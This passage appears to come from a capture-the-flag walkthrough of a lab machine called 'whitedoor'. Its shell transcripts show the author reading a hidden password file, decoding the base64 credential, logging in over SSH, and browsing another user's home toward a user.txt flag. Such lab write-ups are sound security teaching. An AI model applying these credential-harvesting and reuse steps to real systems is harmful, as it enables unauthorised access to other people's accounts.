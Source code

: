 ```shell
www-data@whitedoor:/home/whiteshell$ cd Desktop	
cd Desktop
www-data@whitedoor:/home/whiteshell/Desktop$ ls -la
ls -la
total 12
drwxr-xr-x 2 whiteshell whiteshell 4096 Nov 16  2023 .
drwxr-xr-x 9 whiteshell whiteshell 4096 Nov 17  2023 ..
-r--r--r-- 1 whiteshell whiteshell   56 Nov 16  2023 .my_secret_password.txt
www-data@whitedoor:/home/whiteshell/Desktop$ cat .my_secret_password.txt
cat .my_secret_password.txt
whiteshell:VkdneGMwbHpWR2d6VURSelUzZFBja1JpYkdGak5Rbz0K
```
- Found a hidden file named `.my_secret_password.txt`
- And looks like its a somekind of password hash

```shell
┌──(synix㉿zer0day)-[~]
└─$ echo "VGgxc0lzVGgzUDRzU3dPckRibGFjNQo=" | base64 -d                
Th1sIsTh3P4sSwOrDblac5
```
- And we found a Password!

#### >> Try login into SSH with this creds

```shell
┌──(synix㉿zer0day)-[~]
└─$ ssh whiteshell@192.168.144.158 
whiteshell@192.168.144.158's password: 
Linux whitedoor 6.1.0-13-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.55-1 (2023-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Sep  4 20:06:55 2024 from 192.168.144.229
whiteshell@whitedoor:~$ id
uid=1001(whiteshell) gid=1001(whiteshell) groups=1001(whiteshell)
whiteshell@whitedoor:~$ whoami
whiteshell
whiteshell@whitedoor:~$
```
- And yeah, We got the ssh shell!
- Let's Find out something more.
<br>

```shell
whiteshell@whitedoor:~$ cd ..
whiteshell@whitedoor:/home$ ls
Gonzalo  whiteshell
whiteshell@whitedoor:/home$ cd Gonzalo/
whiteshell@whitedoor:/home/Gonzalo$ ls -l
total 24
drwxr-xr-x 2 root Gonzalo 4096 Nov 17  2023 Desktop
drwxr-xr-x 2 root Gonzalo 4096 Nov 16  2023 Documents
drwxr-xr-x 2 root Gonzalo 4096 Nov 17  2023 Downloads
drwxr-xr-x 2 root Gonzalo 4096 Nov 17  2023 Music
drwxr-xr-x 2 root Gonzalo 4096 Nov 17  2023 Pictures
drwxr-xr-x 2 root Gonzalo 4096 Nov 17  2023 Public
whiteshell@whitedoor:/home/Gonzalo$ cd Desktop/
whiteshell@whitedoor:/home/Gonzalo/Desktop$ ls -l
total 4
-rw-r----- 1 root Gonzalo 20 Nov 16  2023 user.txt
whiteshell@whitedoor:/home/Gonzalo/Desktop$ cat user.txt 
```